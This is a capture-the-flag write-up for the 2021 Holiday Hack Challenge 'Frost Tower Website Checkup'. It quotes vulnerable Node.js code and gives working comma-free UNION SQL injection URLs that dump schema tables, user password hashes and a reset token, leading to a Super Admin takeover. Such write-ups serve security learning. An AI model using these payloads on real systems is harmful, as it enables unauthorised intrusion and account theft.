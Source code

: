# Objective 12: Frost Tower Website Checkup
**Location: Studio, Frost Tower, 16<sup>th</sup> Floor, https://staging.jackfrosttower.com/**  
**Troll: Ingreta Tude**  
**Hints provided by Ribb Bonbowford after completion of [Elf Code Python](https://github.com/joergschwarzwaelder/hhc2021/blob/master/Additional/Elf%20Code%20Python.md)**

This objective is to perform a security assessment of the Frost Tower website with the [source code](https://download.holidayhackchallenge.com/2021/frosttower-web.zip) being provided.
It has to be found, which job position Jack Frost plans to offer Santa on his todo list.

### Auth flaw

The application tracks the user's session in `session` (login name, user's role etc.).
It was found that a valid session is also set, if you complete the [contact form](https://staging.jackfrosttower.com/contact) whilst the email address is already captured in the database. So you could just register twice to get a valid user session for an unprivileged user.
```
app.post('/postcontact', function(req, res, next){
[...]
        var rowlength = rows.length;
        if (rowlength >= "1"){
            session = req.session;
            session.uniqueID = email;
            req.flash('info', 'Email Already Exists');
            res.redirect("/contact");
```            
### SQLi flaw

Using this unprivileged user session, an SQLi flaw in the function to get user details could be used to retrieve more information from the database.
```
app.get('/detail/:id', function(req, res, next) {
    session = req.session;
    var reqparam = req.params['id'];
    var query = "SELECT * FROM uniquecontact WHERE id=";
    if (session.uniqueID){
        try {
            if (reqparam.indexOf(',') > 0){
                var ids = reqparam.split(',');
                reqparam = "0";
                for (var i=0; i<ids.length; i++){
                    query += tempCont.escape(m.raw(ids[i]));
                    query += " OR id="
                }
                query += "?";
            }else{
                query = "SELECT * FROM uniquecontact WHERE id=?"
            }
        } catch (error) {
            console.log(error);
            return res.sendStatus(500);
        }

        tempCont.query(query, reqparam, function(error, rows, fields){
```
As only caveat it has to be ensured, that the **comma character has to be avoided** in the SQL statement as the application splits up the query at the commas.
Furthermore it is important to note that "union" requires that the **number of columns on both sides match**.
Due to the fact, that the ```uniquecontact``` table has 7 columns, it has to be ensured, that also on the right hand side of the `union` 7 columns have to be delivered.

This URL is the base for all following SQLi attacks:
```
https://staging.jackfrosttower.com/detail/0,0 union
```
During research a [very good explanation](https://secgroup.github.io/2017/01/03/33c3ctf-writeup-shia/) about how to avoid commas in SQL statements and how to get to the right amount of columns was found and the attacks outlined below follow exactly this approach.


### Getting access to Jack Frosts todo list

We can obtain a list of all interesting tables in the MySQL database using this SQL statement:
```
select table_name from information_schema.tables;
```
This can be rewritten for our SQLi flaw:
```
https://staging.jackfrosttower.com/detail/0,0 union select * from (select 1)a1 join (select 2)a2 join (select table_name from information_schema.tables)d join (select 3)j join (select 4)k join (select 5)l join (select 6)m;--
```
This reveals, that in addition to the tables `emails` and `uniquecontact`, which are known as they are used in the application and in the provided schema of encontact `encontact_db.sql`, there is an additional table `todo`, which seems to be the todo list we need access to.

Using the SQL statement
```
select column_name from information_schema.columns where table_name="todo";
```
the list of columns in the table `todo` can be obtained.
This can be rewritten for the SQLi as follows:
```
https://staging.jackfrosttower.com/detail/0,0 union select * from (select 1)a1 join (select 2)a2 join (select column_name from information_schema.columns where table_name="todo")d join (select 3)j join (select 4)k join (select 5)l join (select 6)m;--
```
we can see, that this table consists out of 3 columns: `id`, `note`, `completed`.
The `note` column can then be extracted using
```
select note from todo;
```
Rewritten for the SQLi:
```
https://staging.jackfrosttower.com/detail/0,0 union select * from (select 1)a1 join (select 2)a2 join (select note from todo)d join (select 3)j join (select 4)k join (select 5)l join (select 6)m;--
```
This brings up Jack Frosts todo list:

 - Buy up land all around Santa's Castle
 - Build bigger and more majestic tower next to Santa's
 - Erode Santa's influence at the North Pole via FrostFest, the greatest Con in history
- Dishearten Santa's elves and encourage defection to our cause
- Steal Santa's sleigh technology and  build a competing and way better Frosty present delivery vehicle
- Undermine Santa's ability to deliver presents on 12/24 through elf staff shortages, technology glitches, and assorted mayhem 
- Force Santa to cancel Christmas
- SAVE THE DAY by delivering Frosty presents using merch from the Frost Tower Gift Shop to children world-wide... so the whole world sees that Frost saved the Holiday Season!!!! Bwahahahahaha!
- With Santa defeated, offer the old man a job as a **clerk** in the Frost Tower Gift Shop so we can keep an eye on him

---
### Bonus: Getting Super Admin privileges in the application


Using the SQLi flaw, a full list of registered users and admins (along with password hashes and privilege levels) can be retrieved using this link:
```
https://staging.jackfrosttower.com/detail/0,0 union select * from users--
```
This contains for example:
 - Super Admin
 - root@localhost
 - $2b$10$JnLy8pq1fC/KrS.bn1NAOx13GzDavIOZJkuayDC7JSCNKvQUha3i
 - 1
 - November 23rd, 2021 11:00:00
 - December 18th, 2021 7:05:17

---
- Admin
- admin@localhost
- $2b$10$FTkzq07Az57M.Q8jw7ehB..h5Vdc3Vw04zQzJIt294bgwg7.aV1GC
- 2
- December 3rd, 2021 11:00:00

This shows, that we have a "Super Admin" with the email address root@localhost defined in the system.

Next the "[forgot password](https://staging.jackfrosttower.com/forgotpass)" function of the application can be used to increase the privileges.
When resetting the password for a user, a random token is created and stored in the user database in the column `token`. If we are able to get hold of this token, we can change the password of the user and have full control.

The token for the Super Admin "root@localhost" can be retrieved using this URL:
```
https://staging.jackfrosttower.com/detail/0,0 union select * from (select 1)a join (select 2)b join (select 3)c join (select token from users where email="root@localhost")d join (select 4)e join (select 5)f join (select 6)g;--
```

Using the URL https://staging.jackfrosttower.com/forgotpass/token/{retrieved_token} it is possible to set a new password for the "Super Admin" user.
Being logged on as this user, a new personalized user with "Super Admin" privileges can be created.

**Achievement: Frost Tower Website Checkup**




